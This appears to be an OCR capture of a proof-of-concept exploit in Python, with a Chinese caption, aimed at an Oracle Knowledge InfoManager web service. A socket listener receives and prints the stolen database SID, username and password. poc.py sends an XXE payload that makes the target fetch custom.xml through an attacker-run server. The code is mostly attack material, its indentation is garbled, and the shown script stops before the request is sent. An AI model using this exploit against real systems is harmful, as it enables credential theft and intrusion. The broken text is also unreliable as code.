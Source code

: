```
while True:
    # Wait for a connection
    print &gt;&gt;sys.stderr, 'waiting for a connection'
    connection, client_address = sock.accept()
    try:
        print &gt;&gt;sys.stderr, 'connection from', client_address
        # Receive the data in small chunks and retransmit it
        while True:
            data = connection.recv(2048)
            
            if data:
#print data
matchuser = re.search("&lt;user&gt;(.*)&lt;/user&gt;", data)
matchpassword = re.search("&lt;password&gt;(.*)&lt;/password&gt;", data)
matchurl = re.search("&lt;url&gt;(.*)&lt;/url&gt;", data)
if matchuser and matchpassword and matchurl:
print "(+) The database SID is: %s" % matchurl.group(1)
print "(+) The database username is: %s" % matchuser.group(1)
print "(+) The database password is: %s" % matchpassword.group(1)
connection.close()
sys.exit(1)
connection.close()
sys.exit(1)
            else:
                print &gt;&gt;sys.stderr, 'no more data from', client_address
                break
            
    except Exception:
    connection.close()
    finally:
        # Clean up the connection
        connection.close()
```

poc.py代码如下：

```
#!/usr/bin/python
# Notes:
# - This code steals the C:/Oracle/Knowledge/IM/instances/InfoManager/custom.xml file via the XXE bug.
# - You need to run ruby xxeserve.rb -o 0.0.0.0 and use an interface ip for the "local xxe server"
# - The code requires a proxy server to be setup on 127.0.0.1:8080 although, this can be changed
import requests
import json
import sys
# burp, ftw
proxies = {
  "http": "http://127.0.0.1:8080",
}
if len(sys.argv) &lt; 3:
print "(+) Usage: %s [local xxe server:port] [target]" % sys.argv[0]
print "(+) Example: %s 172.16.77.1:4567 172.16.77.128" % sys.argv[0]
sys.exit(1)
localxxeserver = sys.argv[1]
target = sys.argv[2]
payload = {'method' : '2', 'inputXml': '''&lt;?xml version="1.0" encoding="utf-8"?&gt;
&lt;!DOCTYPE root [
&lt;!ENTITY %% remote SYSTEM "http://%s/xml?f=C:/Oracle/Knowledge/IM/instances/InfoManager/custom.xml"&gt;
%%remote;
%%int;
%%trick;]&gt;''' % localxxeserver}
url = 'http://%s:8226/imws/Result.jsp' % target
```